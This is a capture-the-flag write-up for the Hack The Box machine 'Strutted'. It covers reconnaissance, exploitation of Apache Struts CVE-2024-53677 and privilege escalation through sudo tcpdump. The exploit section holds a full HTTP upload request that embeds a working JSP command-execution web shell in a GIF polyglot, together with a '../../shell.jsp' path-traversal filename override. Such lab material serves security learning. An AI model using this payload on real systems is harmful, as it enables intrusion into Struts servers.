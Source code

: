 ```yaml
---
title: "Strutted"
description: "Walkthrough of the HTB machine 'Strutted' (Linux, Medium) exploiting Apache Struts CVE-2024-53677 for RCE and privilege escalation."
date: 2025-08-20
tags:
  - HTB
  - Medium
  - Writeup
image: "./pwn_strutted.png"
authors:
  - saad484
---
```


# Strutted

**OS:** Linux  
**IP:** 10.10.11.59  
**Complete:** Yes  
**Created time:** August 20, 2025 9:12 PM  
**Level:** Medium  
**Status:** Done

---

## Overview

> Strutted is a medium-difficulty Linux machine that features a web application built with Apache Struts. The vulnerable version of Struts (6.3.0.1) is affected by [CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677), which leads to an arbitrary file upload and RCE.

- Vulnerability: _Path Traversal in file upload_ → allows attackers to override `FileName` parameters → write arbitrary files under webroot → **RCE**.
- Reference: [NVD – CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677)
- Additional Deep-Dive: [Y4tacker Blog](https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/#S2-067%E4%B9%8B%E5%8D%95%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%9C%BA%E6%99%AF%E7%BB%95%E8%BF%87)

---

## Reconnaissance

### Nmap Results

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.59
````
```bash
22/tcp open  ssh     OpenSSH 8.9p1 terUbuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Strutted™ - Instant Image Uploads
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````
- Open ports confirm SSH and a web app on port 80

### Port 80 - HTTP
The website allows users to upload and share images.
- source code was downloadable as `Docker Image`, containing:
- `tomcat-users.xml` with plaintext creds
- `pom.xml` -> Struts version `6.3.0.1`
- `upload.java`- > Weak MIME-type checks (bypass possible)

![docker-source](image.png)

![tomcat-users](image%202.png)

![pom.xml](image%203.png)

![upload.java](image%204.png)

- Upload filter only checks headers (`GIF89a`, JPEG, PNG) → polyglot bypass.  
- Struts automatically binds `UploadFileName` from request → attacker can manipulate path/filename.  
- Bug in `FileUploadInterceptor` allows overriding `*FileName` params.  

---
## Exploit
1. Upload a polyglot file(`GIF89a` header + JSP paylaod).
2. Override filename with `../../shell.jsp`.
3- File lands in webroot -> visit `/shell.jsp` -> **RCE**.

````bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28595235431535184633711166866
Origin: http://strutted.htb
Connection: close
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=17F3A16170C3E0A242D72A0BBF82A633
Upgrade-Insecure-Requests: 1
Content-Length: 1170

-----------------------------28595235431535184633711166866
Content-Disposition: form-data; name="Upload"; filename="test.gif"
Content-Type: image/gif

GIF89a
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";
    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>
-----------------------------28595235431535184633711166866
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
-----------------------------28595235431535184633711166866--
````

![exploit](image%205.png)
![shell.jsp](image%206.png)

**User flag:** e95aedf1a8dc69e47e460795e5bd4328

---
## Privilege Escalation
Running `sudo -l` on **james** shows `tcpdump` runnable as root (no password).

Exploit: [GTFOBins - tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)
![tcpdump](image%209.png)

**Root flag:** d89b839b31ac202b028d3d567dff965c

![root-proof](image%2010.png)
